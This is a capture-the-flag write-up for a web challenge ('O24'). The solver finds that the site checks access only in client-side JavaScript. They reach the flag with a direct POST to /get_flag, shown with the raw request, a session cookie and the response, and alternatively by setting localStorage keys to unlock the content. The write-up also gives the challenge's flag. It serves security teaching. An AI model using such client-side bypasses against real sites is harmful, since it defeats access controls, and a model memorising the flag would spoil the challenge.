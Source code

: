 Found the JS functions in the in the source code:
```javascript
       const _gtf = function() {
            if (!window._verifyAccess()) return false;
            
            fetch('/get_flag', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                }
            })
            .then(response => response.json())
            .then(data => {
                if (data.flag) {
                    document.getElementById('flag-result').textContent = 'Congratulations! The flag is: ' + data.flag;
                } else {
                    document.getElementById('flag-result').textContent = 'Error: ' + data.error;
                }
            })
            .catch(error => {
                console.error('Error:', error);
                document.getElementById('flag-result').textContent = 'Error retrieving the flag. Please try again.';
            });
        }
```

```http
POST /get_flag HTTP/1.1
Host: 64.225.103.251:5007
Cookie: session=eyJzZXNzaW9uX2lkIjoiMDk5MDA0MzQtZjNjNy00MzFiLWE2ZTQtYzhkYTVlMTViMTM2Iiwic3RhcnRfdGltZSI6MTc0NjExNjU0M30.aBOfvw.HDtWmbob0XAlyclvGZg6a-ncxmU
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://black-pyramid.appsec.nu:8000/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
Content-Type': 'application/json
```

```http
HTTP/1.1 200 OK
Server: nginx/1.27.4
Date: Thu, 01 May 2025 16:31:07 GMT
Content-Type: application/json
Content-Length: 45
Connection: keep-alive

{"flag":"O24{scr1b3_0f_7h3_h1dd3n_p4pyru5}"}

```

Another way:

We can also find another function that fetches values from localStorage
```javascript
        (function() {
            const _ur = "userRank";
            const _pu = "papyrusUnlocked";
            
            window._checkAccess = function() {
                const a = localStorage.getItem(_ur);
                const b = localStorage.getItem(_pu);
                
                const validOptions = ['visitor', 'acolyte', 'scribe', 'royal_scribe', 'pharaoh', 'deity'];
                const validRanks = [validOptions[2], validOptions[3], validOptions[4]];
                
                if (validRanks.indexOf(a) >= 0 && b === 'true') {
                    document.getElementById('adwall').style.display = 'none';
                    
                    Array.from(document.querySelectorAll('.blurred-content'))
                         .forEach(function(el) { 
                             el.classList.remove('blurred-content'); 
                         });
                    
                    const flagSection = document.querySelector('.flag-container');
                    if (flagSection) flagSection.style.pointerEvents = 'auto';
                }
            };
        })();
```

The function looks for two keys: "userRank" and "papyrusUnlocked"
And we also see the valid options in an array:
```javascript
['visitor', 'acolyte', 'scribe', 'royal_scribe', 'pharaoh', 'deity'];
```

But valid ranks are set in this variable. So the only valid ranks are:  "scribe", "royal_scribe", "pharaoh"
```javascript
const validRanks = [validOptions[2], validOptions[3], validOptions[4]];
```


And this if statement checks if the users rank is within the approved "range" and that the key "papyrusUnlocked" is set to "true"
```javascript
if (validRanks.indexOf(a) >= 0 && b === 'true') {
                    document.getElementById('adwall').style.display = 'none';
                    
                    Array.from(document.querySelectorAll('.blurred-content'))
                         .forEach(function(el) { 
                             el.classList.remove('blurred-content'); 
                         });
                    
                    const flagSection = document.querySelector('.flag-container');
                    if (flagSection) flagSection.style.pointerEvents = 'auto';
                }
```


So let set our localStorage to the approved values
![](AEA_Solved.png)